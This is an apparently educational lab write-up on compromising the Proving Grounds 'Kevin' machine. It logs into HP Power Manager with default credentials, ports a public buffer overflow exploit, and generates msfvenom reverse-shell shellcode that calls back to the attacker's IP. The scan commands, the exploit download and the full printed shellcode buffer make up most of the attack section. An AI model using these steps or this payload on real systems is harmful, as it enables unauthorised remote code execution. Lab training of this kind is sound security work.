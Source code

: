 ```yaml
---
title: "Proving Grounds - Kevin"
date: 2024-10-19T00:00:00+00:00
author: Mathijs Verschuuren
layout: post
permalink: /pg-kevin/
categories: Labs
tags: [writeup], [easy]
---
```

Welcome to our latest lab session in Proving Grounds! In this post, we'll demonstrate how to adapt an existing buffer overflow exploit for an older version of Windows to work on a newer release. This lab is considered to be a beginner lab as only porting existing exploit code is required.

## Discovery

We start off with a nmap scan and scan all open tcp ports using the '-p-' argument. The following output appears after waiting for the scan to complete.

```bash
sudo nmap -p- -vv -Pn -A -T4 -sV 192.168.233.45 -oA ./fulltcp
```

The port scan suggests that we are likely dealing with a Windows machine, as indicated by the presence of commonly open ports that are characteristic of Windows environments. For instance, port 445/tcp is associated with the Server Message Block (SMB) protocol, which is used for file sharing and network resource access. Additionally, port 3389/tcp is used for Remote Desktop Protocol (RDP), allowing users to connect remotely to a Windows system. The scan also reveals other relevant ports, such as 135/tcp and 139/tcp, which are used for various Windows services, including RPC and NetBIOS. 

![image](https://github.com/user-attachments/assets/31ae973c-0f97-49b3-9a32-92f5729aba23)

The machine also hosts a web application, which presents a valuable opportunity for further exploration. In cases like this, especially in a lab environment, starting with the web application is often a prudent approach, as it can yield interesting findings. By investigating the web server, we may uncover useful information that could shed light on the underlying system architecture and functionality. This could include identifying technologies in use, potential vulnerabilities, or even configuration details that help us better understand the overall environment we're dealing with.

The page displays a login screen for HP Power Manager, which, upon first glance, appears somewhat dated in its design. The user interface lacks modern aesthetics and functionality, giving it an older feel that may suggest it hasn’t been updated in a while.

![image](https://github.com/user-attachments/assets/3c50b0f7-34e1-4640-a7e1-e0b66eb2b138)

Using the default credentials of admin/admin grants us access to the interface, revealing some insights into the application behind it. 

![image](https://github.com/user-attachments/assets/438a2576-5076-45cf-9668-73444f8b71ac)

Let’s take a look at Searchsploit to check for any vulnerabilities related to HP Power Manager. By searching the database, we can identify known exploits, security issues, or weaknesses associated with this application.

![image](https://github.com/user-attachments/assets/0e3e5ca1-bc00-49fe-aa68-9ad0112b5fb1)

It appears that the application we are dealing with is vulnerable to a buffer overflow vulnerability. This type of vulnerability can allow an attacker to manipulate the application’s memory, potentially leading to arbitrary code execution or denial of service.

By utilizing Searchsploit with the -w flag, we can pinpoint the URL (https://www.exploit-db.com/exploits/10099) that provides access to the exploit code associated with this vulnerability. This will enable us to review the specific details of the exploit, including its mechanics and any prerequisites for successful execution.

The provided exploit code targets a buffer overflow vulnerability in HP Power Manager and has been specifically tested on Windows 2003 Enterprise SP2 English and Windows XP SP2 English. We can identify that the code is written in Python 2 due to several key features:

1. **Print Statement**: The use of `print` statements without parentheses (e.g., `print "HP Power Manager Administration Universal Buffer Overflow Exploit"`) is characteristic of Python 2 syntax. In Python 3, `print` is a function and requires parentheses.

2. **String Handling**: The code employs string formatting and concatenation in a manner typical of Python 2. For instance, the `%` operator is used for string interpolation, which is less common in modern Python 3 code, where f-strings or the `format()` method are preferred.

The exploit works by sending a specially crafted HTTP POST request to the application, attempting to manipulate its memory by overwriting the return address with a location that can execute arbitrary code. The payload is constructed in the `evil` variable, which includes the necessary HTTP headers and the crafted buffer. As noted in the comments, this exploit demonstrates the significant security risks associated with outdated software, especially when default credentials remain in use.

I frequently search for new code to see if anyone has already taken the initiative to convert older projects to newer versions, such as Python 3. This proactive approach not only saves me time but also ensures that I can leverage the latest features and improvements in the language.

![image](https://github.com/user-attachments/assets/c0b78fbe-5169-497b-838d-888ec2f3f744)

I will use this Python 3 code (https://github.com/CountablyInfinite/HP-Power-Manager-Buffer-Overflow-Python3/blob/master/hp_pm_exploit_p3.py) example as a starting point and explore how we can port the existing code to ensure it works effectively.


## Exploit

We will download the exploit code and open it with a text editor of our choice. 

```bash
wget https://raw.githubusercontent.com/CountablyInfinite/HP-Power-Manager-Buffer-Overflow-Python3/refs/heads/master/hp_pm_exploit_p3.py
nano hp_pm_exploit_p3.py
```

With buffer overflows often the command to generate the shellcode is added as a comment. This is also the case for our exploit.

![image](https://github.com/user-attachments/assets/434e1fd7-f86e-4d02-851e-b0eb822f7c1f)

We will use the msfvenom command to generate our own shellcode that will work with the buffer overflow. It’s crucial to remember to change the LHOST value to your own IP address to ensure the shellcode can establish a connection back to our machine. For the LPORT, we will select 443/tcp, as this port is commonly permitted on firewalls.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.166 LPORT=443  EXITFUNC=thread -b '\x00\x1a\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5' x86/alpha_mixed --platform windows -f python
```

This outputs the following:

```bash
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of python file: 1722 bytes
buf =  b""
buf += b"\x33\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e"
buf += b"\x81\x76\x0e\xd2\x9f\xb3\xc4\x83\xee\xfc\xe2\xf4"
buf += b"\x2e\x77\x31\xc4\xd2\x9f\xd3\x4d\x37\xae\x73\xa0"
buf += b"\x59\xcf\x83\x4f\x80\x93\x38\x96\xc6\x14\xc1\xec"
buf += b"\xdd\x28\xf9\xe2\xe3\x60\x1f\xf8\xb3\xe3\xb1\xe8"
buf += b"\xf2\x5e\x7c\xc9\xd3\x58\x51\x36\x80\xc8\x38\x96"
buf += b"\xc2\x14\xf9\xf8\x59\xd3\xa2\xbc\x31\xd7\xb2\x15"
buf += b"\x83\x14\xea\xe4\xd3\x4c\x38\x8d\xca\x7c\x89\x8d"
buf += b"\x59\xab\x38\xc5\x04\xae\x4c\x68\x13\x50\xbe\xc5"
buf += b"\x15\xa7\x53\xb1\x24\x9c\xce\x3c\xe9\xe2\x97\xb1"
buf += b"\x36\xc7\x38\x9c\xf6\x9e\x60\xa2\x59\x93\xf8\x4f"
buf += b"\x8a\x83\xb2\x17\x59\x9b\x38\xc5\x02\x16\xf7\xe0"
buf += b"\xf6\xc4\xe8\xa5\x8b\xc5\xe2\x3b\x32\xc0\xec\x9e"
buf += b"\x59\x8d\x58\x49\x8f\xf7\x80\xf6\xd2\x9f\xdb\xb3"
buf += b"\xa1\xad\xec\x90\xba\xd3\xc4\xe2\xd5\x60\x66\x7c"
buf += b"\x42\x9e\xb3\xc4\xfb\x5b\xe7\x94\xba\xb6\x33\xaf"
buf += b"\xd2\x60\x66\x94\x82\xcf\xe3\x84\x82\xdf\xe3\xac"
buf += b"\x38\x90\x6c\x24\x2d\x4a\x24\xae\xd7\xf7\x73\x6c"
buf += b"\xff\x39\xdb\xc6\xd2\x9e\x08\x4d\x34\xf5\xa3\x92"
buf += b"\x85\xf7\x2a\x61\xa6\xfe\x4c\x11\x57\x5f\xc7\xc8"
buf += b"\x2d\xd1\xbb\xb1\x3e\xf7\x43\x71\x70\xc9\x4c\x11"
buf += b"\xba\xfc\xde\xa0\xd2\x16\x50\x93\x85\xc8\x82\x32"
buf += b"\xb8\x8d\xea\x92\x30\x62\xd5\x03\x96\xbb\x8f\xc5"
buf += b"\xd3\x12\xf7\xe0\xc2\x59\xb3\x80\x86\xcf\xe5\x92"
buf += b"\x84\xd9\xe5\x8a\x84\xc9\xe0\x92\xba\xe6\x7f\xfb"
buf += b"\x54\x60\x66\x4d\x32\xd1\xe5\x82\x2d\xaf\xdb\xcc"
buf += b"\x55\x82\xd3\x3b\x07\x24\x53\xd9\xf8\x95\xdb\x62"
buf += b"\x47\x22\x2e\x3b\x07\xa3\xb5\xb8\xd8\x1f\x48\x24"
buf += b"\xa7\x9a\x08\x83\xc1\xed\xdc\xae\xd2\xcc\x4c\x11"
```

In the example code the 'b' in front of every line is not used. Lets remove it for our payload as well.

![image](https://github.com/user-attachments/assets/91e62cb7-0681-4d8e-ada9-6df08e881177)

This results in the following code pasted in to the exploit.

![image](https://github.com/user-attachments/assets/c713de71-8fec-49ad-91e0-1fb5634a39dc)

We save our exploit and are ready to try it on the server. We will look at the script to see how to interact with it. In this case there is a help menu available.

![image](https://github.com/user-attachments/assets/c90c6b4b-0440-4021-908b-9cbff638ac5b)

It seems that the tool automatically starts up a listener.

![image](https://github.com/user-attachments/assets/f3277c34-c09b-4327-a405-460db7a25461)

Time for action.

```bash
python3 hp_pm_exploit_p3.py 192.168.233.45 80 443
```

The exploit works!

![image](https://github.com/user-attachments/assets/c7d3009a-b583-490f-a557-604587989408)

## Credits

Thank you for taking the time to read. My goal is to document my findings for personal reference and to share insights into my thought processes, helping those who are new to the field learn and grow. I believe that providing this additional context can be beneficial for others as they navigate their own journeys in this domain.
